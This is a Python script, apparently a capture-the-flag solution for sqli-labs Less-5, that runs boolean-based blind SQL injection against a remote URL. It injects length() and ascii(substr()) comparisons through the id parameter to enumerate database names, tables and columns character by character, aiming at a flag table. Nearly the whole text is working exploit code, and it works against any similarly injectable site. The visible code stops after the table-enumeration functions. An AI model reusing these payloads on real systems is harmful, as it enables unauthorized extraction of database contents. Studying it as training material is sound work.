 ```sql
import requests

url = 'http://723a482f-9b9c-4575-9450-a15ea380958e.node5.buuoj.cn/Less-5/'
sqli_length={
    'sqli_db':'length((select group_concat(schema_name) from information_schema.schemata))',
    'sqli_table':'length((select group_concat(table_name) from information_schema.tables where table_schema="ctftraining"))',
    'sqli_column':'length((select group_concat(column_name) from information_schema.columns where table_name="flag"))',
    'sqli_flag':'length((select group_concat(flag) from ctftraining.flag))'
}
sqli_str={
    'sqli_db':'substr((select group_concat(schema_name) from information_schema.schemata)',
    'sqli_table':'substr((select group_concat(table_name) from information_schema.tables where table_schema="ctftraining")',
    'sqli_column':'substr((select group_concat(column_name) from information_schema.columns where table_name="flag")',
    'sqli_flag':'substr((select group_concat(flag) from ctftraining.flag)'
}


def check_db_length():
    for i in range(1,100):
        url_db =url+"?id=1' and "+sqli_length['sqli_db']+f"={i}--+"
        resp = requests.get(url_db)
        if 'You are in...........' in resp.text:
            return i

def check_db_str():
    answer=''
    for i in range(1,check_db_length()+1):
        for j in range(1,128):
            url_db =url+"?id=1' and "+"ascii("+sqli_str['sqli_db']+f",{i},1))={j}--+"
            resp = requests.get(url_db)
            if 'You are in...........' in resp.text:
                answer += chr(j)
                print(chr(j))
                break
        print(f'{i}号位结束')
    return answer

def check_table_length():
    for i in range(1,100):
        url_table =url+"?id=1' and "+sqli_length['sqli_table']+f"={i}--+"
        print(url_table)
        resp = requests.get(url_table)
        if 'You are in...........' in resp.text:
            return i

def check_table_str():
    answer = ''
    for i in range(1, check_table_length() + 1):
        for j in range(1, 128):
            url_table = url + "?id=1' and " + "ascii(" + sqli_str['sqli_table'] + f",{i},1))={j}--+"
            print(url_table)
            resp = requests.get(url_table)
            if 'You are in...........' in resp.text:
                answer += chr(j)
                print(chr(j))
                break
        print(f'{i}号位结束')
    return answer
```